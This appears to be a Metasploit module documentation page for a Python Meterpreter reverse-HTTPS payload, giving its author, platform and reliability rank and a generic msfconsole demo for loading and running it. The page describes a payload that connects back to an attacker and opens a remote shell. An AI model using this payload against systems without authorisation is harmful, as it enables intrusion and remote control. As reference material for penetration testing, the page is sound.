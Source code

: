 ## Python Meterpreter Shell, Reverse HTTPS Inline

Connect back to the attacker and spawn a Meterpreter shell


## Module Name
payload/python/meterpreter_reverse_https

## Authors
* Spencer McIntyre





## Platforms
* python

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/python/meterpreter_reverse_https
msf payload(meterpreter_reverse_https) > show targets
   ... a list of targets ...
msf payload(meterpreter_reverse_https) > set TARGET <target-id>
msf payload(meterpreter_reverse_https) > show options
   ... show and set options ...
msf payload(meterpreter_reverse_https) > run
```
    
    